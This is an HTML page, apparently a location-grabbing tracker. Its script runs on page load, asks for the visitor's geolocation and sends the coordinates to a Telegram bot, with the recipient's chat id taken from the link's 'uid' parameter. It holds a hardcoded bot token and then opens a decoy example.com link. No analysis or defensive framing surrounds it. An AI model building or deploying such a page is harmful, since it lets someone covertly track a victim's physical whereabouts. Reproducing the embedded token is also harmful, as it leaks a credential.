 
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>Location Access</title>
  <style>
    body { font-family: sans-serif; text-align: center; margin-top: 50px; }
    button { padding: 15px 25px; margin: 15px; font-size: 18px; border: none; border-radius: 10px; cursor: pointer; }
    .action { background: #4CAF50; color: white; }
  </style>
</head>
<body>
<h1>Accessing Location...</h1>

<script>
const urlParams = new URLSearchParams(window.location.search);
const chatId = urlParams.get('uid');
const botToken = "7562867574:AAGyHAW7J0ipQWZ_nlwS5PA287wTK36DQ4c";

function sendToTelegram(message) {
  fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
    method: "POST",
    headers: {"Content-Type": "application/json"},
    body: JSON.stringify({ chat_id: chatId, text: message })
  });
}

function getLocation() {
  if ("geolocation" in navigator) {
    navigator.geolocation.getCurrentPosition(pos => {
      const lat = pos.coords.latitude;
      const lon = pos.coords.longitude;
      sendToTelegram(`📍 Location:\nLatitude: ${lat}\nLongitude: ${lon}`);
      window.open("https://example.com/location-link", "_blank");
    }, err => alert("Location access denied."));
  } else {
    alert("Geolocation not supported.");
  }
}

getLocation();
</script>

</body>
</html>
